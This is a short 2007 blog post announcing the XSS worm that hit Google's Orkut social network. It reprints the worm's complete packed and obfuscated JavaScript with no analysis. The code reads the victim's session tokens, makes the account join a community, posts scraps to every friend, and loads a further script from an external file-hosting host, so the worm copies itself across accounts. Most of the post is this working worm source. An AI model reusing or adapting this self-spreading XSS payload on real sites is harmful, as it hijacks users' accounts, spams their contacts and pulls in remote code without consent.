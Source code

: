 ```yaml
---
title: The Orkut XSS Worm
author: pdp
date: Wed, 19 Dec 2007 11:15:27 GMT
template: post.pug
category: fucked
---
```


Yep, Orkut, Google's Social Network, was hit by a XSS worm, the source of which you will be able to find at the bottom of this post. To be honest with you, it was about time. The trend for infecting social networks with Web2.0 malware will continue to increase during the following years. This is for sure! The simple fact is that social networks collect a lot of personal information which attackers can easily harvest for their own benefit.

The code is fairly simple and should be no brainier for you to find out what it does. So, this is the reason why I will skip the explanation step. The pre-processed details can be found out at [antrix.net](http://antrix.net/journal/techtalk/orkut_xss.html) website.

```javascript
function $(p,a,c,k,e,d) {
    e=function(c) {
        return(c<a?"":e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))
    };
    if(!''.replace(/^/,String)){
        while(c--){d[e(c)]=k[c]||e(c)}
        k=[function(e){return d[e]}];
        e=function(){return'\\w+'};
        c=1
    };
    while(c--){
        if(k[c]){
            p=p.replace(new RegExp('\\b'+e(c)+'\\b','g'),k[c])
        }
    }
    return p
};
setTimeout(
    $('5 j=0;5 q=1q["2o.H"];5 E=1q["2p.K.27"];7 B(){Z{b i 14("29.1l")}
    L(e){};Z{b i 14("2b.1l")}L(e){};Z{b i 2l()}L(e){};b J};
    7 W(g,P,m,c,9,U){5 1m=g+"="+19(P)+(m?"; m="+m.2f():"")+(c?"; c="+c:"")+(9?"; 9="+9:"")+(U?"; U":"");
    8.y=1m};7 v(g){5 l=8.y;5 A=g+"=";5 h=l.S("; "+A);6(h==-1){h=l.S(A);6(h!=0){b 2h}}16{h+=2};
    5 u=8.y.S(";",h);6(u==-1){u=l.M};b 2j(l.2m(h+A.M,u))};
    7 26(g,c,9){6(v(g)){8.y=g+"="+(c?"; c="+c:"")+(9?"; 9="+9:"")+"; m=1u, 1i-1v-1x 1g:1g:1i 1y";1U.1z(0)}};
    7 G(){5 3=B();6(3){3.R("1A","o://k.w.p/1B.z",C);3.a(J);3.Y=7(){6(3.X==4){6(3.1a==1c){5 1r=3.1Q;5 t=8.1n("t");
    t.1D=1r;5 f=t.D("f").O(0);6(f){f.1M(f.D("1F").O(0));f.1G("1H","N");f.1J.1K="1L";8.1N.1f(f);V()}}16{G()}}};
    3.a(J)}};7 T(){5 a="H="+n(q)+"&K="+n(E)+"&15.1O";5 3=B();3.R(\'q\',\'o://k.w.p/1P.z?1R=1S\',C);
    3.12(\'10-1e\',\'Q/x-k-17-1b\');3.a(a);3.Y=7(){6(3.X==4){6(3.1a!=1c){T();b};G()}}};
    7 V(){6(j==8.18("N").M){b};
    5 I="1V 1W 1X... 1Y 1Z 20 21 22 23 24<1k/>[1j]25 "+i F()+"[/1j]<1k/><13 1o=\\"o://k.w.p/28.z\\" 2a=\\"Q/x-2c-2d\\" 2e=\\"2g\');
    r=8.1n(\'r\');r.1o=\'o://1p.2k.p/2n/1p/1s.1t\';8.D(\'1w\')[0].1f(r);19(\'\\" 1C=\\"1\\" 1E=\\"1\\"></13>";
    5 a="15.1I=1&H="+n(q)+"&I="+n(I)+"&K="+n(E)+"&1T="+8.18("N").O(j).P;5 3=B();
    3.R("q","o://k.w.p/2i.z",C);3.12("10-1e","Q/x-k-17-1b;");
    3.a(a);3.Y=7(){6(3.X==4){j++;5 d=i F;d.1d(d.1h()+11);W(\'s\',j,d);V()}}};
    6(!v(\'s\')){5 d=i F;d.1d(d.1h()+11);W(\'s\',\'0\',d)};j=v(\'s\');T();
    ',62,150,'|||xml||var|if|function|document|domain|send|return|path|wDate||select|name|begin|new|index|
    www|dc|expires|encodeURIComponent|http|com|POST|script|wormdoorkut|div|end|getCookie|orkut||cookie|aspx
    |prefix|createXMLHttpRequest|true|getElementsByTagName|SIG|Date|loadFriends|POST_TOKEN|scrapText|null|
    signature|catch|length|selectedList|item|value|application|open|indexOf|cmm_join|secure|sendScrap|setCookie|
    readyState|onreadystatechange|try|Content|86400|setRequestHeader|embed|ActiveXObject|Action|else|form|
    getElementById|escape|status|urlencoded|200|setTime|Type|appendChild|00|getTime|01|silver|br|XMLHTTP|curCookie|
    createElement|src|files|JSHDF|xmlr|virus|js|Thu|Jan|head|70|GMT|go|GET|Compose|width|innerHTML|height|option|
    setAttribute|id|submit|style|display|none|removeChild|body|join|CommunityJoin|responseText|cmm|44001818|toUserId|
    history|2008|vem|ai|que|ele|comece|mto|bem|para|vc|RL|deleteCookie|raw|LoL|Msxml2|type|Microsoft|shockwave|flash|
    wmode|toGMTString|transparent|false|Scrapbook|unescape|myopera
    |XMLHttpRequest|substring|virusdoorkut|CGI|Page'.split('|'),0,{}),1
);
author="Rodrigo Lacerda"
```

So, there you go! Even if XSS is the lamest for of attack, you cannot deny its effectiveness.
